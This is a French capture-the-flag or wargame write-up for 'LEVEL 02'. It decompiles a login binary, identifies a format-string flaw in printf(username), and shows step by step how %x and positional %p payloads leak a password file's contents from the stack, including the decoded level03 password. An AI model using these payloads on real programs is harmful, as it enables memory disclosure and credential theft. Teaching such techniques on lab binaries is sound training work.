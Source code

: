 # LEVEL 02

## Analyse du code

### Code décompilé (Ghidra)

```c
undefined8 main(void)
{
  int iVar1;
  size_t sVar2;
  long lVar3;
  char *pcVar4;
  char local_118 [112];  // Buffer password input
  char local_a8 [48];    // Buffer pour le mot de passe du fichier
  char local_78 [100];   // Buffer username
  int local_14;
  FILE *local_10;
  
  // [...] Initialisation des buffers à zéro [...]
  
  // Ouverture et lecture du fichier de mot de passe
  local_10 = fopen("/home/users/level03/.pass","r");
  if (local_10 == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
    exit(1);
  }
  
  // Lecture de 41 bytes (0x29) depuis le fichier
  sVar2 = fread(local_a8,1,0x29,local_10);
  local_14 = (int)sVar2;
  sVar2 = strcspn(local_a8,"\n");
  local_a8[sVar2] = '\0';
  
  if (local_14 != 0x29) {
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
    exit(1);
  }
  fclose(local_10);
  
  // Interface de login
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  
  // Lecture du username
  printf("--[ Username: ");
  fgets(local_78,100,stdin);
  sVar2 = strcspn(local_78,"\n");
  local_78[sVar2] = '\0';
  
  // Lecture du password
  printf("--[ Password: ");
  fgets(local_118,100,stdin);
  sVar2 = strcspn(local_118,"\n");
  local_118[sVar2] = '\0';
  
  puts("*****************************************");
  
  // Vérification du mot de passe
  iVar1 = strncmp(local_a8,local_118,0x29);
  if (iVar1 == 0) {
    printf("Greetings, %s!\n",local_78);
    system("/bin/sh");
    return 0;
  }
  
  // VULNÉRABILITÉ : Format String !
  printf(local_78);  // Devrait être printf("%s", local_78)
  puts(" does not have access!");
  exit(1);
}
```

---

## Identification de la vulnérabilité

### Format String Vulnerability

**Ligne critique :**
```c
printf(local_78);
```

Au lieu de :
```c
printf("%s", local_78);
```

**Conséquence :** En entrant des format specifiers (`%x`, `%p`, `%s`, `%n`) dans le username, on peut :
- Lire la pile mémoire
- Accéder aux variables stockées sur la pile
- Écrire en mémoire (avec `%n`)

---

## Exploitation

### Étape 1 : Exploration de la pile avec `%x`

**Test initial :**
```bash
Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Password: test
```

**Sortie :**
```
AAAA ffffe500 0 78 2a2a2a2a 2a2a2a2a ffffe6f8 f7ff9a08 78252078 25207825 20782520 
78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 
252078 0 34376848 61733951 574e6758 6e475873 664b394d feff00 41414141 ...
```

### Étape 2 : Analyse des valeurs

| Position | Valeur | Signification |
|----------|--------|---------------|
| ... | `0` | Fin d'une variable |
| 22 | `34376848` | Début du mot de passe |
| 23 | `61733951` | Suite du mot de passe |
| 24 | `574e6758` | Suite du mot de passe |
| 25 | `6e475873` | Suite du mot de passe |
| 26 | `664b394d` | Suite du mot de passe |
| 27 | `feff00` | Fin de string |

**Observation :** Le mot de passe du fichier `.pass` est stocké sur la pile !

### Étape 3 : Optimisation avec `%p` (64 bits)

**Problème :** Sur un système 64 bits, `%x` ne lit que **4 bytes** au lieu de **8 bytes**.

**Solution :** Utiliser `%p` pour lire 8 bytes à la fois :

```bash
echo "%22\$p %23\$p %24\$p %25\$p %26\$p" | ./level02
```

**Sortie :**
```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
```

**Sortie clean :**
```
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
```

---

## Décodage du mot de passe

#### Avec CyberChef :

1. Input : `756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d`
2. Opération 1 : **"From Hex"** (delimiter: Space)
3. Opération 2 : **"Swap endianness"** (Word length: 8)
4. Résultat : Le mot de passe !

---

## Solution

### Mot de passe trouvé :

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
